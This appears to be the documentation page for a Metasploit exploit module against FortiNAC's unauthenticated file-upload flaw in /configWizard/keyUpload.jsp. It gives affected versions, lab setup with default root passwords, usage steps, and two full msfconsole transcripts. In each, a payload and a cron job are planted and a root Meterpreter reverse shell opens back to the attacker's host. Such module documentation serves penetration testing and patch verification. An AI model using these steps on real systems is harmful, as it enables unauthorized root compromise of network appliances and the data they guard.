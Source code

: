 ## Vulnerable Application

This module uploads a payload to the `/tmp` directory in addition to a cron job to `/etc/cron.d` which executes the payload
in the context of the `root` user.

The core vulnerability is an arbitrary file write issue in `/configWizard/keyUpload.jsp` which is accessible remotely and without
authentication. When you send this endpoint a ZIP file, it will extract an an attacker controlled file to directory
on the system of the attacker's choice.

This issue is exploitable on the following versions of FortiNAC:

FortiNAC version 9.4 prior to 9.4.1
FortiNAC version 9.2 prior to 9.2.6
FortiNAC version 9.1 prior to 9.1.8
FortiNAC 8.8 all versions
FortiNAC 8.7 all versions
FortiNAC 8.6 all versions
FortiNAC 8.5 all versions
FortiNAC 8.3 all versions

### Setup

Navigate to https://www.fortinet.com/demo-center/nac-demo to obtain a FortiNAC free product demo. Fill out the
necessary fields in order to download: first name, last name, job function, job level, company, email address, phone
number, state, zip/postal code. You'll receive a confirmation email, click the link in the email in order to access the
free product download.

Import the OVF file into your virtualization software of choice. Personally, I had success using VMware Fusion. Change the network
interface from Bridged to Host Only. Once the machine turns on, log in with the following default credentials as outlined
in the [VMware Virtual Machine Installation Guide](https://fortinetweb.s3.amazonaws.com/docs.fortinet.com/v2/attachments/920a0000-200d-11e9-b6f6-f8bc1258b856/fortinac-vmware-install-85.pdf):

```
Username: root
Password: 162PemBnI
```

Once authenticated successfully, statically set the IP Address of the machine:

`configIP 192.168.123.11 255.255.255.0 192.168.123.1`

Navigate to the directory where the license file resides, and then start a Python SimpleHTTPServer web server to
host files from this directory using the following commands:

```
cd /bsc/campusMgr
python -m SimpleHTTPServer 9099
```

On your local machine download the license file from the Python server started above:

`wget -O licenseKey http://192.168.123.11:9099/.licenseKey`

On your local machine, open the browser of your choice and navigate to:

`https://192.168.123.11:8443/gui`

Authenticate with the default username and password:

```
Username: root
Password: YAMS
```

Follow the installation steps, everything should be straight forward. When asked for the license key, provide
the `.licenseKey` file you downloaded from the Python HTTP server. Set the hostname to `localhost`.
The domain can be set to `localhost.localdomain`. You will be required to change the default passwords from the
GUI and once complete, restart the machine. You should now have a vulnerable instance of FortiNAC configured.

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/multi/http/fortinac_keyupload_file_upload`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### FortiNAC 9.4.0 Python Target

```
msf6 > use exploit/multi/http/fortinac_keyupload_file_upload
[*] Using exploit/multi/http/fortinac_keyupload_file_upload
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set lport 4440
lport => 4440
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > run

[*] Started reverse TCP handler on 192.168.123.1:4440
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending zipped payload to /configWizard/keyUpload.jsp
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (24772 bytes) to 192.168.123.11
[*] Meterpreter session 1 opened (192.168.123.1:4440 -> 192.168.123.11:56544) at 2023-03-08 13:48:03 -0500
[!] This exploit may require manual cleanup of '/tmp/gSYDIjeD' on the target
[!] This exploit may require manual cleanup of '/etc/cron.d/PYXGcyGo' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : localhost.localhost.localdomain
OS              : Linux 3.10.0-1160.53.1.el7.x86_64 #1 SMP Fri Jan 14 13:59:45 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```

### FortiNAC 9.4.0 Linux x64 Target
```
msf6 > use exploit/multi/http/fortinac_keyupload_file_upload
[*] Using exploit/multi/http/fortinac_keyupload_file_upload
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set lport 4440
lport => 4440
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set target Linux x64
target => Linux x64
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > run

[*] Started reverse TCP handler on 192.168.123.1:4440
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending zipped payload to /configWizard/keyUpload.jsp
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (3045348 bytes) to 192.168.123.11
[*] Meterpreter session 2 opened (192.168.123.1:4440 -> 192.168.123.11:56578) at 2023-03-08 13:49:01 -0500
[!] This exploit may require manual cleanup of '/tmp/vprwoPAh' on the target
[!] This exploit may require manual cleanup of '/etc/cron.d/ZIpoyhHQ' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.53.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

